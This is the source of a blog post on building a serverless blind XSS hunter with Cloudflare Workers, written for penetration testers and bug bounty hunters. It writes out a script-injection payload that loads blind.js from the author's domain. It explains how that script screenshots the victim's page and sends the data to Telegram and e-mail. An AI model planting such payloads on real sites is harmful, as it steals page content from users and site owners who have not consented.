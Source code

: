 ```yaml
---
layout: post
title: "Serverless Blind XSS hunter with Cloudflare Workers"
date: 2019-09-11 00:00:00 -0000
categories: ['Ethical hacking', 'Tools']
tags: [blind xss, cloudflare, cloudflare worker, serverless, xss, xss hunter]
author: vavkamil
---
```


<hr>

<!-- wp:paragraph -->
<p>If you are not familiar with <strong><a rel="noreferrer noopener" aria-label="XSS Hunter (opens in a new tab)" href="https://xsshunter.com/" target="_blank">XSS Hunter</a></strong> by <a rel="noreferrer noopener" aria-label="@IAmMandatory (opens in a new tab)" href="https://twitter.com/IAmMandatory" target="_blank">@IAmMandatory</a>, it's an awesome tool for penetration testers and bug bounty hunters that allows easily hunt for blind XSS vulnerabilities. It's <a rel="noreferrer noopener" aria-label="open-source (opens in a new tab)" href="https://github.com/mandatoryprogrammer/xsshunter" target="_blank">open-source</a> with a ton of features. You can use the SaaS version, <a rel="noreferrer noopener" aria-label="deploy it youself (opens in a new tab)" href="https://thehackerblog.com/xss-hunter-is-now-open-source-heres-how-to-set-it-up/" target="_blank">deploy it yourself</a> or even go serverless with <a rel="noreferrer noopener" aria-label="Refinery (opens in a new tab)" href="https://app.refinery.io/import?q=ymec5nkycnt4" target="_blank">Refinery</a>! You should absolutely give it a try :)</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I was thinking about writing something similar for a while. I just wanted something way simpler, where I could experiment with different payloads, CSP bypasses and other stuff. Right now it can grab basic info about the visitor and website, take a screenshot and notify me on Telegram and E-mail. If you are fancier, you can easily add support for Slack or Discord notifications ...</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>TLDR;</strong> I did a simple XSS hunter as a Cloudflare Worker, source code is here: <a rel="noreferrer noopener" aria-label="https://gist.github.com/vavkamil/d40e3b8dd1373445506517684959531e (opens in a new tab)" href="https://gist.github.com/vavkamil/d40e3b8dd1373445506517684959531e" target="_blank">https://gist.github.com/vavkamil/d40e3b8dd1373445506517684959531e</a></p>
<!-- /wp:paragraph -->

<!-- wp:gallery {"ids":[596,597,598],"columns":3} -->
<figure class="wp-block-gallery columns-3 is-cropped"><ul class="blocks-gallery-grid"><li class="blocks-gallery-item"><figure><img src="{{ '/assets/img/2019/09/Screenshot_20190911-142246_Telegram.png' | relative_url }}" alt="" data-id="596" class="wp-image-596"/><figcaption class="blocks-gallery-item__caption">Telegram notification</figcaption></figure></li><li class="blocks-gallery-item"><figure><img src="{{ '/assets/img/2019/09/Screenshot-from-2019-09-11-14-28-00.png' | relative_url }}" alt="" data-id="597" data-link="https://vavkamil.cz/?attachment_id=597" class="wp-image-597"/><figcaption class="blocks-gallery-item__caption">E-mail notification</figcaption></figure></li><li class="blocks-gallery-item"><figure><img src="{{ '/assets/img/2019/09/Screenshot-from-2019-09-11-14-28-23.png' | relative_url }}" alt="" data-id="598" data-link="https://vavkamil.cz/?attachment_id=598" class="wp-image-598"/><figcaption class="blocks-gallery-item__caption">Screenshot example</figcaption></figure></li></ul></figure>
<!-- /wp:gallery -->

<!-- wp:html -->
<center>
<figure class="wp-block-embed-twitter aligncenter wp-block-embed is-type-rich is-provider-twitter"><div class="wp-block-embed__wrapper">
https://twitter.com/vavkamil/status/1171460639434276869
</div></figure>
</center>
<!-- /wp:html -->

<!-- wp:heading {"level":3} -->
<h3>WTF is CF Worker?</h3>
<!-- /wp:heading -->

<!-- wp:paragraph -->
<p>Cloudflare Workers are cheap and powerful service, where you can deploy serverless code all around the world. That allows you to create entirely new applications that behave similar to JavaScript in the browser. Using a CF Worker, you can modify your site’s HTTP requests and responses, make parallel requests, or generate responses from the edge.</p>
<!-- /wp:paragraph -->

<!-- wp:heading {"level":3} -->
<h3>Getting started</h3>
<!-- /wp:heading -->

<!-- wp:paragraph -->
<p>Assuming you already have Cloudflare account, just select any domain and start right away, or you can create custom <a rel="noreferrer noopener" aria-label="workers.dev (opens in a new tab)" href="https://workers.dev" target="_blank">workers.dev</a> subdomain. Once finished, you can start hunting for blind XSS with simple payload e.g.:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>'">&lt;script src=//xss.vavkamil.cz/blind.js>&lt;/script></code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>With paid Cloudflare plan, please highly consider using <a href="https://blog.cloudflare.com/building-with-workers-kv/" target="_blank" rel="noreferrer noopener" aria-label="Workers KV (opens in a new tab)">Workers KV</a> (Key-Value Store) for storing secrets.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Starting with Telegram, you will need to create a bot and get the API token. It's <a rel="noreferrer noopener" aria-label="really easy (opens in a new tab)" href="https://core.telegram.org/bots#3-how-do-i-create-a-bot" target="_blank">really easy</a>, just talk to <a rel="noreferrer noopener" aria-label="@BotFather (opens in a new tab)" href="https://telegram.me/botfather" target="_blank">@BotFather</a> and give it a name. Next, you will need to provide the bot with your user ID. Just talk to <a rel="noreferrer noopener" aria-label="@RawDataBot (opens in a new tab)" href="https://telegram.me/RawDataBot" target="_blank">@RawDataBot</a> or <a rel="noreferrer noopener" aria-label="@userinfobot (opens in a new tab)" href="https://telegram.me/userinfobot" target="_blank">@userinfobot</a> and they will respond with your ID.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","highlightNumbers":"9,11","lineNumbers":"9-11"} /-->

<!-- wp:paragraph -->
<p>To be able to send e-mails, my best recommendation is to use <a rel="noreferrer noopener" aria-label="Mailgun (opens in a new tab)" href="https://www.mailgun.com/" target="_blank">Mailgun</a>. I'm really happy with the service that they are offering and you can configure it in 5 minutes (too lazy to write a step-by-step guide). Great for simulated phishing awareness too :)</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","highlightNumbers":"14,15,17,18","lineNumbers":"13-19"} /-->

<!-- wp:paragraph -->
<p>The last part of the secrets is your Cloudflare worker route. Decide which path you want to use, once you are finished, create the route and pair the worker with it.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","highlightNumbers":"21","lineNumbers":"21"} /-->

<!-- wp:paragraph -->
<p>There comes the interesting stuff. Our blind.js script can behave differently based on the GET/POST requests and parameters. If it receives POST data from successful blind XSS attack, it will pass info about the website along with the screenshot to Telegram and e-mail.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","highlightNumbers":"50","lineNumbers":"50-60"} /-->

<!-- wp:paragraph -->
<p>I had some problems with message limits on Telegram side due to a huge base64 encoded strings, so I'm just sending basic notification and more detailed info is send to e-mail.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","lineNumbers":"65-74"} /-->

<!-- wp:paragraph -->
<p>Sending messages from Telegram bot is very easy, you can even use HTML/markdown or just a plain text.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","lineNumbers":"79-86"} /-->

<!-- wp:paragraph -->
<p>Same goes for Mailgun, just pass the basic HTTP auth headers and you are good to go.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","lineNumbers":"91-103"} /-->

<!-- wp:paragraph -->
<p>You can even send a response to your victim after the successful execution :)</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","lineNumbers":"108-111"} /-->

<!-- wp:paragraph -->
<p>When the Workers route is requested via GET, there are three possibilities what can happen.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>With the <code>base64</code> parameter, it will decode the string and respond with the screenshot. I have implemented it this way because at the time it's not possible to do stuff with files or buffer, but it would be way more elegant to just send the screenshot as an attachment ...</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","lineNumbers":"123-131"} /-->

<!-- wp:paragraph -->
<p>This part is bothering me. To be able to do a screenshot of the victim's browser, you need to somehow serve html2canvas.min.js. With <code>html2canvas=1</code> parameter, it will do just that. This way it's possible to get the content from 3rd party domain and serve it from our origin, but it's a huge privacy risk. I was thinking about it and will probably just leverage Cloudflare cache and add hash checking mechanism to notice changes in the remote code.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","lineNumbers":"132-138"} /-->

<!-- wp:paragraph -->
<p>And the last part is the most important one. This is the payload that will be injected everywhere :) It will inject <code>html2canvas.min.js</code> and after the screenshot is ready, POST request with the data is fired to the worker to process.</p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e","highlightNumbers":"150","lineNumbers":"143-161"} /-->

<!-- wp:paragraph -->
<p>I hope that it's not a total garbage script and somebody will appreciate it :) Have a lucky bug hunting ...</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><a href="https://gist.github.com/vavkamil/d40e3b8dd1373445506517684959531e">https://gist.github.com/vavkamil/d40e3b8dd1373445506517684959531e</a></p>
<!-- /wp:paragraph -->

<!-- wp:gistr/custom-block {"content":"d40e3b8dd1373445506517684959531e"} /-->